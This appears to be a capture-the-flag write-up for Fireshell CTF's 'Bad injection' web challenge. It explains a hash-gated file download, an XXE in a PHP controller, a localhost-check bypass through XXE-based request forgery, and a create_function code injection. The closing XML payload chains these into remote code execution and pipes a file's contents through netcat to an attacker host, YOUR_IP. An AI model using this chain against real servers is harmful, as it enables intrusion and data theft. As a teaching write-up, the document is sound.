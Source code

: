 ```yaml
---
layout: post
category: example2
---
```


# Bad injection [ [Fireshell CTF] ](https://ctftime.org/event/727)

## [Enumerating the challenge](#Enumerating-the-challenge)

![index](https://i.imgur.com/vtZ1BiQ.png)

looking at the first 3 pages available **home**, **about** and **contact**, nothing useful is presented to us. But, by accessing the **List** page, we got the icon of an "image
corrupted" next to the loaded image.

By analyzing the source of this page, it is possible to see a passage of parameters:

```
download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b

```  

this is the "corrupted image". With these parameters, we can read any file on the server. The requirements are:

* the file path is accurate
* the **hash** parameter must contain the md5 of the searched file.


![listagem-diretorios](https://i.imgur.com/kVAupWz.png)


## Exploration


By scanning the server, we can find the file **Routes.php** inside **/app/** directory, where some http request is required.

    ...
    ...
    ...
    
    Route::set('custom',function(){
      $handler = fopen('php://input','r');
      $data = stream_get_contents($handler);
      if(strlen($data) > 1){
        Custom::Test($data);
      }else{
        Custom::createView('Custom');
      }
    });
    ...
    ...
    ...  


and the **Custom.php** file in **/app/Controllers/** .  

```
    <br />
    <b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
    <?php
    
    class Custom extends Controller{
      public static function Test($string){
          $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
          $test = $root->name;
          echo $test;
      }
    
    }
    
     ?>  
```

using XXE, we can also return files from the server.  


![xxe](https://i.imgur.com/5aKPJVP.png)

## Localhost bypass  


on the **Routes.php** file above mentioned, you can also see the following code:

```
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
})
```  

This code verifies if that the request comes from the localhost within a conditional structure. If it does, then call Admin::sort.  

Looking at the **Admin.php** file (also downloaded enum the server), we can see that Admin::sort contains:


```usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));```

which gives us an obvious code injection.  

---

that way, we need to use the XXE to bypass the verification of localhost and then make a request to /Admin, which returns us the remote code execution.

the payload:

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://127.0.0.1/admin?rss=http://YOUR_IP/file.xml&order=link.file_get_contents('http://YOUR_IP/'.exec('cat'.chr(32).'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'YOUR_IP'.chr(32).'YOUR_PORT'))">
    ]>
    <root><name>&xxe;</name></root>

* the **file.xml** file must be uploaded to your server, with a valid rss with the route and adminsort for request.  


the output:  


![flag](https://i.imgur.com/FyBD4eq.png)  
**Flag : f#{1_d0nt_kn0w_wh4t_i4m_d01ng}**  
---

* [RSS W3schools](https://www.w3schools.com/xml/xml_rss.asp)
